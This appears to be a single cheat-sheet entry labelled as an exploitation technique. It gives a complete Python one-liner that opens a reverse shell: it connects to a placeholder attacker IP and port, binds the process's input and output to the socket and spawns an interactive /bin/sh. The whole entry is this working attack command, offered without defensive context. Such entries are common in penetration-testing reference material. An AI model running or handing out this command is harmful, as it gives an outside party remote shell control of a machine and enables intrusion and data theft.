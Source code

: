 # [Exploitation] Reverse shell (PTY, socket) --python3
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<attacker_ip>",<port>));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

